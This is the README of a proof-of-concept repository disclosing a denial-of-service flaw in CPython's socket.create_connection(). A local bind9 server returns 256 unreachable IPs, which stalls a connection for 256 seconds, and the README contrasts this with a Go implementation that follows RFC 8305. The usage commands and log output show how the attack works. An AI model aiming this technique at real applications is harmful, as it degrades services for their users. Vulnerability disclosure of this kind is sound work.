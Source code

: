 # PoC CPython GH-106283

This repository contains a basic demonstration of a denial of service vulnerability
of `socket.create_connection()` against untrusted user-inputs of domain names.

[docker-compose.yaml](docker-compose.yaml) deploys a pre-configured DNS server (bind9)
with a `*.test` zone returning 256 IP addresses under the `A` record.

[poc.py](poc.py) invokes `socket.create_connection(("poc.test", 80), timeout=1)`
(default arguments) which simulates what would happen if a malicious user
would trick/ask a Python application to connect to a domain name returning
lots of IP addresses that always timeout when connecting to them.

### Usage

```
$ docker-compose up --build
$ docker-compose exec poc poc.py --domain poc.test --timeout 1
```

### Output

```
$ docker-compose exec poc poc.py --domain poc.test --timeout 1
2023-06-22 16:05:16,550 DEBUG: socket.connect: ('10.0.2.200', 80)
2023-06-22 16:05:17,553 DEBUG: socket.connect: ('10.0.2.84', 80)
[...]
2023-06-22 16:09:32,042 DEBUG: socket.connect: ('10.0.2.137', 80)
2023-06-22 16:09:33,043 ERROR: Socket timeout error!
2023-06-22 16:09:33,044 INFO: Took: 256 seconds
```

## Example non-vulnerable implementation

[example-golang.go](example-golang.go) shows the behavior of Golang versus
the Python's current, which acts an example on how the fix could be implemented
and would behave (RFC 8305).

```
$ docker-compose up --build
$ docker-compose exec go-example go-example --domain poc.test --timeout 10s
```

```
$ docker-compose exec go-example go-example --domain poc.test --timeout 10s
17:20:26.445149 Found 256 IPs to try out
17:20:26.445282 Attempting to connect to 10.0.2.21:80...
17:20:28.446960 Attempting to connect to 10.0.2.25:80...
17:20:30.449034 Attempting to connect to 10.0.2.67:80...
17:20:32.450936 Attempting to connect to 10.0.2.141:80...
17:20:34.452858 Attempting to connect to 10.0.2.13:80...
17:20:36.443316 Failed to get URL (in 10.004180651s): dial tcp 10.0.2.230:80: i/o timeout
```
